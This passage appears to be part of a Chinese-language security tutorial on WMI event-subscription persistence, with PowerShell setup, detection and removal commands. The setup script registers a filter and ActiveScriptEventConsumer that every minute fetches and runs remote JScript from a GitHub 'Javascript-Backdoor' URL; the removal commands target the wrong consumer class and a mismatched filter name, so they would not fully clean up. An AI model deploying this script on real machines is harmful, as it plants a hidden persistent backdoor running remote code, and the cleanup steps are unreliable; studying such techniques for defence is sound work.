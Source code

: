 演示略

2、powershell
------------

注意转义字符  
"用""表示  
内容如下：

```
$filterName = 'filtP1'
$consumerName = 'consP1'
$Command ="GetObject(""script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test"")"    


$Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"    

$WMIEventFilter = Set-WmiInstance -Class __EventFilter -NameSpace "root\subscription" -Arguments @{Name=$filterName;EventNameSpace="root\cimv2";QueryLanguage="WQL";Query=$Query} -ErrorAction Stop    

$WMIEventConsumer = Set-WmiInstance -Class ActiveScriptEventConsumer -Namespace "root\subscription" -Arguments @{Name=$consumerName;ScriptingEngine='JScript';ScriptText=$Command}    

Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{Filter=$WMIEventFilter;Consumer=$WMIEventConsumer}

```

演示略

3、检测
----

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter    


Get-WMIObject -Namespace root\Subscription -Class __EventConsumer    


Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding

```

4、清除
----

```
Get-WMIObject -Namespace root\Subscription -Class __EventFilter -Filter "Name='filtP1'" | Remove-WmiObject -Verbose    

Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer -Filter "Name='consP1'" | Remove-WmiObject -Verbose    

Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%BotFilter82%'" | Remove-WmiObject -Verbose

```
